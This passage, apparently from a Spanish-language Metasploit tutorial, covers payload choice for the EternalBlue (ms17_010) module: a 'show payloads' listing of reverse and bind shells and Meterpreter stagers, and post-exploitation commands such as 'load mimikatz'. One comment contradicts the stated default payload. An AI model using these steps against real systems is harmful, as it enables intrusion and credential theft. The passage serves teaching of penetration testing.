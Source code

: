Observamos que por defecto se presecciona ya un payload: "windows/x64/meterpreter/reverse_tcp". 
Podrías listar todos los payloads compatibles con este módulo con:
```
msf exploit(windows/smb/ms17_010_eternalblue) > show payloads
```

Dando como salida:
```

Compatible Payloads
===================

   #   Name                                                Disclosure Date  Rank    Check  Description
   -   ----                                                ---------------  ----    -----  -----------
   0   payload/generic/custom                              .                normal  No     Custom Payload
   1   payload/generic/shell_bind_aws_ssm                  .                normal  No     Command Shell, Bind SSM (via AWS API)
   2   payload/generic/shell_bind_tcp                      .                normal  No     Generic Command Shell, Bind TCP Inline
   3   payload/generic/shell_reverse_tcp                   .                normal  No     Generic Command Shell, Reverse TCP Inline                   <-    este es el preseleccionado
   ...
   30  payload/windows/x64/meterpreter/reverse_https       .                normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
   31  payload/windows/x64/meterpreter/reverse_named_pipe  .                normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse Named Pipe (SMB) Stager
   32  payload/windows/x64/meterpreter/reverse_tcp         .                normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   33  payload/windows/x64/meterpreter/reverse_tcp_rc4     .                normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   34  payload/windows/x64/meterpreter/reverse_tcp_uuid    .                normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
   35  payload/windows/x64/meterpreter/reverse_winhttp     .                normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (winhttp)
   36  payload/windows/x64/meterpreter/reverse_winhttps    .                normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTPS Stager (winhttp)
   ...
   74  payload/windows/x64/vncinject/reverse_winhttps      .                normal  No     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTPS Stager (winhttp)

```

La salida tras ejecutar un "run" dependerá del payload escogido.+

#### ¿Qué cambia según la selección?

- Tipo de sesión / prompt
	- Meterpreter → prompt meterpreter> y un conjunto rico de comandos propios (ps, download, screenshot, getuid, migrate, load mimikatz, etc.).
	- Reverse shell / bind shell (cmd/sh) → te deja en la shell del sistema (C:\Users> en Windows, $ en Linux). Comandos nativos del SO (whoami, dir, ls, etc.).
